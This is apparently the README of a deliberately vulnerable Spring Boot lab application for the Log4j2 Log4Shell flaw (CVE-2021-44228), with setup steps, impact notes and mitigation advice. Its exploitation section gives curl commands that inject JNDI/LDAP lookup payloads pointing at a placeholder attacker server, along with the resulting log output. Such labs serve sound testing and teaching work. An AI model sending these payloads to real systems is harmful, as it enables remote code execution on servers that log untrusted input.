

# Sample Log4j2 vulnerable application (CVE-2021-44228) 
# Versions Affected: all versions from 2.0-beta9 to 2.14.1

This application is based on Spring Boot web application vulnerable to CVE-2021-44228

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1).



## Running the application

Run it:

```
Import the project in Java IDE as a maven project

Run CVEMainApplication.java as a spring boot app.

```

## Exploitation steps

* Then, trigger the exploit using:

```bash
For GET ->
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/efdgt62jjd0002leee=}'


For Post request ->
curl --location --request POST 'http://127.0.0.1:8080/addemployee' \
--header 'Content-Type: application/json' \
--data '{
	"name": "${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}"
}'
```

* Notice the output, showing it is connecting to malicious LDAP server:

```
021-12-12 12:17:00,579 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=]. javax.naming.CommunicationException: your-private-ip:1389 [Root exception is java.net.UnknownHostException: your-private-ip]


Caused by: java.net.UnknownHostException: your-private-ip
```

* if you give real ldap server details, it will download the object and execuate in your java program

## This vulnerability impacting all server including both client facing and backend core system if your application printing log message of unvalidated data..

* For example, a User-Agent string containing the exploit could be passed to a backend system written in Java that does indexing or data science and the exploit could get logged. This is why it is vital that all Java-based software that uses Log4j version 2 is patched or has mitigations applied immediately. Even if the Internet-facing software is not written in Java it is possible that strings get passed to other systems that are in Java allowing the exploit to happen.


## Mitigation : 

Reference : https://logging.apache.org/log4j/2.x/security.html

* Quick hot fix of application -> In releases >=2.10, this behavior can be mitigated by setting either the system property log4j2.formatMsgNoLookups or the environment variable LOG4J_FORMAT_MSG_NO_LOOKUPS to true. For releases from 2.0-beta9 to 2.10.0, the mitigation is to remove the JndiLookup class from the classpath: zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class.

* Upgrade to log4j 2.15.0 in application and deploy